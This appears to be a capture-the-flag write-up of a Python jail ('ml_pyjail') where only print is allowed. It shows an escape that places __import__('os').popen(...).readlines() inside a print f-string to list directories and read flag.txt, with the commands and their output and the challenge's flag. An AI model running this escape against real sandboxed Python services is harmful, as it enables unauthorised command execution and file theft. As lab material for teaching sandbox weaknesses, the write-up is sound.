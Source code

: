 ![[ml_pyjail_banner.png]]

![[ml_pyjail_print.png]]

this pyjail only supported the print command

and no other command worked

also i solved this challenge without downloading the zip file as there wasnt one when i completed it


to get code execution i tried to encapsulate a import in the python f-string

like this `__import__('os')` as it did not give an error message i knew it worked

i fuzzed for not usable functions like read() open() system() so i tried other ones like popen() that runs the command but does not directly send the result in the stdout

so to get the output i had to execute .read() that was not possible 

so i tried an alternative `readline()` and it worked!


```
>>print(f"{__import__('os').listdir('/home/pctf')}") 

['.dockerignore', 'MLjail', 'ReadME.md', 'docker-compose.yml', 'Dockerfile', 'entrypoint.sh', '.gitignore']

>>print(f"{__import__('os').listdir('/home/pctf/MLjail')}") 

['mlmodel', 'ReadME.md', 'app.py', 'requirements.txt', 'flag.txt', 'tags', 'training_data'] 

>>print(f"{__import__('os').popen('cat MLjail/flag.txt).readlines()}") 

Oops, something broke: f-string: unterminated string (<string>, line 1)

>>print(f"{__import__('os').popen('cat MLjail/flag.txt').readlines()}") 

['PCTF{M@chin3_1earning_d0_be_tR@nsformati0na1_1818726356}']
```
